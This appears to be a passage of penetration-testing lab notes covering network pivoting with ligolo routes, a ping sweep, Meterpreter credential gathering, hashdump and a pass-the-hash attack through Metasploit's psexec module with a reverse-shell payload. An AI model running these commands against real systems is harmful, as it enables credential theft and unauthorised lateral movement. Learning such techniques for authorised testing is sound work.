 ```bash
#6.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.79.0/24 dev ligolo-3`  

#7.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.79.0/24 dev ligolo-2`  

#8.Ping Sweep to Discover Hosts:  
for i in {1..254} ;do (ping -c 1 192.168.79.$i | grep "from" &) ;done 


```
## Exploitation  
#### extract credentials
```bash
# extract cred of clint service/ softwares
meterpreter > run post/multi/gather/filezilla_client_cred

```

#### Pass-the-Hash Attack
- **Weakness**: Windows authentication protocols allow users to log in using hashed versions of passwords (NT or LM hashes) instead of cleartext passwords.  
- **Attack Vector**: If the same password is used across multiple machines, obtaining the hash from one host grants access to others, even without knowing the actual password.

* **Tools for Pass-the-Hash**  
- Metasploit and other tools are available to exploit this Windows weakness.  
- You only need the hashes, not the cracked passwords.

* **Dumping Hashes**  
- **Command**:  
  ```bash
  meterpreter > hashdump
  ```

* **Pass-the-Hash with Metasploit (psexec Module)**  
To run a pass-the-hash attack using the `psexec` module:

- **Configure the Module**:
  - **RHOST**: Target host (e.g., 10.10.10.5)
  - **SMBUser**: User account (e.g., els)
  - **SMBPass**: Password hash
  - **Payload**: Meterpreter or custom payload

- **Commands**:
  ```bash
  use exploit/windows/smb/psexec
  set RHOST 10.10.10.5
  set SMBUser els
  set SMBPass <NTLM hash>
  set PAYLOAD windows/meterpreter/reverse_tcp
  run
  ```
